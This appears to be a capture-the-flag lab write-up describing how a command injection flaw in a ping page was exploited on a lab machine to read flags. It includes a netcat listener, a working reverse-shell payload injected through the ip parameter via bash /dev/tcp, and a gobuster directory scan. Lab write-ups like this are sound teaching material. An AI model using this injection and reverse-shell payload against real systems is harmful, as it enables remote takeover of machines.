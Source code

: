     <img width="800" height="84" alt="image" src="https://github.com/user-attachments/assets/6d490115-da1d-4af2-9615-2d3d7de4ad18" />

     "It gives us this message, which is a very clear hint of a 'Command Injection' vulnerability."

     <img width="800" height="537" alt="image" src="https://github.com/user-attachments/assets/39c57bf2-e009-411f-a816-b55cf2f4cb8b" />
     <img width="800" height="537" alt="image" src="https://github.com/user-attachments/assets/29b7086b-12c5-4e51-988b-d30422b1d1cb" />

       "We already know that we can navigate using commands in the taskbar. In fact, when we use the ls command, we find a file named estonoesunaflag.txt. We use cat to read it and obtain the following:

       **FLAG{SIMPLEMENTE_RCE}**
     
       **FLAG{SIMPLEMENTE_RCE}**

       Now we will use a reverse shell to try to connect to the machine — or more accurately, to make the machine connect back to us.
        We use the following command:

          nc -lvnp 4444

     And in the browser, we visit:

         http://192.168.1.141/ping/index.php?ip=127.0.0.1;bash+-c+%27bash+-i+%3E%26+/dev/tcp/192.168.1.141/4444+0%3E%261%27

     to establish the connection."

     <img width="800" height="500" alt="image" src="https://github.com/user-attachments/assets/218986e6-8f35-489d-bdc4-2508e734dfeb" />
     <img width="800" height="431" alt="image" src="https://github.com/user-attachments/assets/41cb7fe4-8ed6-499d-95cb-7071700ff31b" />
     <img width="700" height="500" alt="image" src="https://github.com/user-attachments/assets/63698342-27b3-4be7-a705-e0e70faa241f" />

       We check each directory one by one, trying to find more information.
       We attempt persistence and succeed — in the Deloitte directory, we find a flag and a name: james.
       The flag is:
     
       **FLAG{W311_D0N3_R00T_1S_W41T1nG_U}**

      In the /opt directory, we find more data. Using ChatGPT, we determine that it is a Base64-encoded string:

         RkxBRyB7WTB1X2FyZSBhIHJlYWwgSGFja2VyfQo=

     We use AI to decode it.

     <img width="800" height="467" alt="image" src="https://github.com/user-attachments/assets/8ffdb7b3-28e7-4159-8492-55acb56ff276" />

      **FLAG: F L A G  {Y0u_ar_e_a_real_Hacker}**

     "Now we will search for hidden directories.
      We use the following command:

         gobuster dir -u http://192.168.1.141/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x php,txt,html -o gobuster_resultados.txt

     This command scans for hidden directories and files with .php, .txt, and .html extensions, using the common wordlist and 30 threads. The results are saved in gobuster_resultados.txt."
